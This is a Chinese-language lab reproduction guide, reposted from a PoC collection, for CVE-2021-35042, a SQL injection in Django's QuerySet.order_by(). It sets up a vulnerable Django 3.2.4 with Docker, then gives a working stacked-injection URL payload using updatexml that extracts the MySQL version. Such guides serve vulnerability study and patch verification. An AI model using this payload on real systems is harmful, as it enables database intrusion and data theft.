


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Test3.2.4; controllable order_by and MySQL multi-statement/backend assumptions

代码与实验材料：Baseline -id then version query; screenshot result; view/driver absent

来源证据范围：Official July1,2021 release

- **事实待核（1）**：Missing version/fix matrix and database/driver prerequisites。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Django QuerySet.order_by() SQL 注入漏洞

# CVE-2021-35042

## 漏洞描述

Django 在 2021 年 7 月 1 日发布了一个安全更新，修复了在 QuerySet 底下的 order_by 函数中存在的 SQL 注入漏洞

参考链接:

- https://www.djangoproject.com/weblog/2021/jul/01/security-releases/

该漏洞需要用户可控 order_by 传入的值，在预期列的位置注入 SQL 语句。

## 环境搭建

Vulhub 执行如下命令编译及启动一个存在漏洞的 Django 3.2.4：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8000` 即可看到 Django 默认首页。

## 漏洞复现

访问页面 `http://your-ip:8000/vuln/`，在 GET 参数中构造 `order=-id`，会得到根据 id 降序排列的结果：

```
http://your-ip:8000/vuln/?order=-id
```



再构造 GET 参数 `order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23` 提交，其中 `vuln_collection` 是 `vuln` 应用下的模型 `Collection`

```
http://your-ip:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23
```

成功注入 SQL 语句，利用堆叠注入获得信息：




---

> 来源：Threekiii/Awesome-POC
